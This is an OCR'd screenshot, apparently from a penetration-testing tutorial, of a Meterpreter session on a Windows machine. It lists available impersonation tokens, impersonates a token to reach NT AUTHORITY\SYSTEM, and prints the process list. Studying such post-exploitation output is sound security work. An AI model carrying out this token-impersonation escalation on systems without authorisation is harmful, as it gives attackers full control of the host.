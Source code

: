 Impersonation Tokens Available
========================================
BUILTIN\IIS_IUSRS
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
NT SERVICE\CryptSvc
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\DPS
NT SERVICE\LanmanWorkstation
NT SERVICE\lmhosts
NT SERVICE\MpsSvc
NT SERVICE\netprofm
NT SERVICE\NlaSvc
NT SERVICE\nsi
NT SERVICE\PolicyAgent
NT SERVICE\Power
NT SERVICE\ShellHWDetection
NT SERVICE\TermService
NT SERVICE\W32Time
NT SERVICE\WdiServiceHost
NT SERVICE\WinHttpAutoProxySvc
NT SERVICE\wscsvc

meterpreter > impersonate_token BUILTIN\\Administrators
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > ps 

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 676   580   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 684   580   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 776   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 792   668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 852   668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 924   608   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe